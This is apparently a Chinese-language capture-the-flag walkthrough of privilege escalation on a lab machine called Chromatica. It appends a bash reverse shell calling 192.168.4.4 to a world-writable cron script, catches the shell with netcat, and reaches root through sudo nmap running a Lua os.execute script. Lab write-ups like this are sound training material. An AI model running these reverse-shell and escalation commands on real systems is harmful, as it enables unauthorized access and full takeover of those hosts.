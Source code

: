 
# 提权

看一下`.bash_history`
![Pasted image 20250216133609.png](/img/user/picture/Pasted%20image%2020250216133609.png)
![Pasted image 20250216133859.png](/img/user/picture/Pasted%20image%2020250216133859.png)
e,这里是不是作者在做测试留下的


```sh
* *     * * *   analyst /bin/bash /opt/scripts/end_of_day.sh
```
有修改权限
```sh
dev@Chromatica:/opt/scripts$ ls -l
total 4
-rwxrwxrw- 1 analyst analyst 30 Feb 16 05:00 end_of_day.sh
```
反弹shell
```sh
dev@Chromatica:/opt/scripts$ echo '/bin/bash -i >& /dev/tcp/192.168.4.4/1234 0>&1' >> end_of_day.sh
dev@Chromatica:/opt/scripts$ cat end_of_day.sh
#this is my end of day script
/bin/bash -i >& /dev/tcp/192.168.4.4/1234 0>&1
```

```sh
┌──(root㉿kali)-[~]
└─# nc -lvnp 1234
listening on [any] 1234 ...
id
connect to [192.168.4.4] from (UNKNOWN) [192.168.4.5] 48442
bash: cannot set terminal process group (3373): Inappropriate ioctl for device
bash: no job control in this shell
analyst@Chromatica:~$ id
uid=1002(analyst) gid=1002(analyst) groups=1002(analyst)
analyst@Chromatica:~$ cat analyst.txt
cat analyst.txt
brightctf{GAZETTO_RUKI_b2f4f50f398}

```

emmm,在新用户里面`.bash_history`也看到了有意思的东西

![Pasted image 20250216134233.png](/img/user/picture/Pasted%20image%2020250216134233.png)
```sh
analyst@Chromatica:~$ sudo -l
sudo -l
Matching Defaults entries for analyst on Chromatica:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User analyst may run the following commands on Chromatica:
    (ALL : ALL) NOPASSWD: /usr/bin/nmap
analyst@Chromatica:~$ TF=$(mktemp)
TF=$(mktemp)
analyst@Chromatica:~$ echo 'os.execute("/bin/sh")' > $TF
echo 'os.execute("/bin/sh")' > $TF
analyst@Chromatica:~$ sudo nmap --script=$TF
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@Chromatica:/home/analyst# id
id
```